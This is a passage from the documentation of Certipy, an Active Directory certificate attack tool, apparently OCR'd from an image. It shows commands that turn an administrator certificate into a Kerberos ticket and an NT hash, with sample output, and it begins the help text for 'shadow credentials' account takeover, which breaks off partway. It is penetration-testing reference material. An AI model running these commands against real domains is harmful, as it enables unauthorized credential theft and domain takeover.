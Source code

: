 ```bash
$ certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

The NT hash and the credential cache (TGT) can be used for further authentication with other tools. If you're in a domain context on a Windows machine, you can use `-ptt` to inject the TGT into your current session.

If the example above doesn't work in your case, you can specify the required parameters manually, such as the KDC IP, username, and domain. This can sometimes happen if the certificate doesn't contain information about the user (such as Shadow Credentials) or if the domain name cannot be resolved via DNS.

```bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

### Shadow Credentials

The `shadow` command is useful for taking over an account when you can write to the `msDS-KeyCredentialLink` attribute of the account. Read more about Shadow Credentials [here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

```
Certipy v4.0.0 - by Oliver Lyak (ly4k)

usage: certipy shadow [-h] [-account target account] [-device-id DEVICE_ID] [-debug] [-out output file name] [-scheme ldap scheme] [-dc-ip ip address] [-target-ip ip address] [-target dns/ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-u username@domain]
                      [-p password] [-hashes [LMHASH:]NTHASH] [-k] [-sspi] [-aes hex key] [-no-pass]
                      {list,add,remove,clear,info,auto}

positional arguments:
  {list,add,remove,clear,info,auto}
                        Key Credentials action

optional arguments:
  -h, --help            show this help message and exit
  -account target account
                        Account to target. If omitted, the user specified in the target will be used
  -device-id DEVICE_ID  Device ID of the Key Credential Link
  -debug                Turn debug output on

output options:
  -out output file name

connection options:
  -scheme ldap scheme
```